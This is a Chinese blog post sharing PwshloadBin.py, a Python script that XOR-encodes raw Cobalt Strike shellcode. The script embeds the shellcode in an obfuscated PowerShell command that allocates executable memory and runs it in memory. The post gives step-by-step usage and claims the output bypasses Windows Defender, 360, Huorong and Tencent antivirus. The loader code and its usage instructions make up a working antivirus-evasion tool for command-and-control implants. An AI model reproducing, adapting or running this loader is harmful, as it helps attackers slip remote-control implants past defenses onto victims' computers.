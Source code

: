 ```yaml
---
title: Powershell Command 免杀自动生成脚本
tags: Tools
---
```


之前写的，用不到了基本，发博客里存下。

其实就是 CS生成的ps1文件，进行免杀处理，然后写了个自动化脚本，直接生成.bin文件去查看输出的powershell命令即可

之前学习免杀弄的，现在可能不免杀defender之类的了，但是360、火绒应该还是没问题的

下图CS原始生成的代码，进行免杀处理，还是比较容易的，网上很多思路，关于如何修改就不多说了，只是给个方便的脚本，然后替换自己的东西，我这个是xor然后写成数组进去的，网上还有很多思路，这个稍微改改就可以了，但是这个实战中很多webshell里面不好用，命令太长了。可以试试写bat里，要不然改完了就为ps1文件直接运行也可以。

![屏幕快照 2021-01-07 14.49.09](https://gitee.com/evilashz/MyIMGs/raw/master/img/20210107161032.png)

解密其中的base64的代码如下，pwsh的base64有点区别

```
# powershell

$data = [System.Convert]::FromBase64String("CompressedBase64StreamHere")
$ms = New-Object System.IO.MemoryStream
$ms.Write($data, 0, $data.Length)
$ms.Seek(0,0) | Out-Null
$sr = New-Object System.IO.StreamReader(New-Object System.IO.Compression.GZipStream($ms, [System.IO.Compression.CompressionMode]::Decompress))
$sr.ReadToEnd()
```

处理完，把我代码里面的换掉就可以了

### **使用方法**

#### **⼀、⽣成RAW格式的Payload**

**Attacks->Packages->Payload Generator**

**![122](https://gitee.com/evilashz/MyIMGs/raw/master/img/20210107161153.png)**

![123](https://gitee.com/evilashz/MyIMGs/raw/master/img/20210107161200.png)

**⽣成的Payload保存⾄与 PwshloadBin.py ⽂件统⼀⽬录下**

#### **⼆、本机进⾏混淆操作(Require Python3)**

![屏幕快照 2021-01-07 14.56.17](https://gitee.com/evilashz/MyIMGs/raw/master/img/20210107161240.png)

```
-s or --src 指定⽣成RAW格式格式⽂件

-d or --dst 指定Obfused之后的输出⽂件

-n or --num 选择进⾏和原始字节数据进⾏XOR的值(⼯具介绍⾥Obfused写错了...)

Example:python3 PwshloadBin.py -s payload.bin -d result.txt -n 56
```

##### **免杀效果：**

**Windows Defender(1.321.492.0)**

**卡巴斯基 （⽆法过动态） **

**360(12.1.0.1005) **

**⽕绒(5.0.50.2) **

**腾讯电脑管家**

**...**

**截⽌ 2020年 8⽉ 3⽇ 星期⼀ 17时48分18秒 CST**



**PwshloadBin.py**

```python
'''
Usage: python3 load.py -s payload.bin -d 123.txt -n 10
'''
import sys
import os
import struct
from argparse import ArgumentParser, FileType

def LoadShellCode(num, src_fp, dst_fp,):
    file_path = src_fp
    data_bin = open(file_path, 'rb+')
    data_size = os.path.getsize(file_path)
    data_list = []
    shellcode_size = 0

    for i in range(data_size):
        data_i = data_bin.read(1) # 每次输出一个字节
        #print(data_i)
        base10 = ord(data_i) ^ num
        #print(base10)
        #num = struct.unpack('B', data_i) # B 无符号整数，b 有符号整数
        #print(num)
        data_list.append(base10)
        shellcode_size += 1

    data_bin.close()

    payload ="powershell $servi={Set-StrictMode -Version 2;function getd {Param ([Parameter(Position = 0, Mandatory = $True)] [Type[]] $pab,[Parameter(Position = 1)] [Type] $rac = [Void]);$bda = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate]);$bda.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $pab).SetImplementationFlags('Runtime, Managed');$bda.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $rac, $pab).SetImplementationFlags('Runtime, Managed');return $bda.CreateType()};function postd {Param ($servw, $servq);$servp = ([AppDomain]::CurrentDomain.GetAssemblies() ^| Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods');$gpa = $servp.GetMethod('GetProcAddress', [Type[]] @('System.Runtime.InteropServices.HandleRef', 'string'));return $gpa.Invoke($null, @([System.Runtime.InteropServices.HandleRef](New-Object System.Runtime.InteropServices.HandleRef((New-Object IntPtr), ($servp.GetMethod('GetModuleHandle')).Invoke($null, @($servw)))), $servq))};If ([IntPtr]::size -eq 8) {[Byte[]]$servo = "+ ",".join(repr(e) for e in data_list) +";for ($ui = 0; $ui -lt $servo.Count; $ui++) {$servo[$ui] = $servo[$ui] -bxor "+ str(num) +";};$vab = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((postd kernel32.dll VirtualAlloc), (getd @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr])));$cba = $vab.Invoke([IntPtr]::Zero, $servo.Length, 0x3000, 0x40);[System.Runtime.InteropServices.Marshal]::Copy($servo, 0, $cba, $servo.length);$cab = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($cba, (getd @([IntPtr]) ([Void])));$cab.Invoke([IntPtr]::Zero)}}.ToString();iex $servi"
    #print(payload)
    dst_fp.write(payload)
    dst_fp.close()
    return shellcode_size

def main():
    parser = ArgumentParser(prog='PwshloadBin', description='Generate the PowerShell Payload to loading the Cobaltstrike PAYLOAD.BINs without file > evilash')
    parser.add_argument('-s','--src',help=u'source bin file', required=True)
    parser.add_argument('-d','--dst',help=u'output Payload file', type=FileType('w+'), required=True)
    parser.add_argument('-n','--num',help=u'Confused number Default=26',type=int, default=26)
    args = parser.parse_args()
    shellcode_size = LoadShellCode(args.num, args.src, args.dst)
    sys.stdout.writelines("[+]Shellcode Size : {} \n".format(shellcode_size))

if __name__ == "__main__":
    main()
```


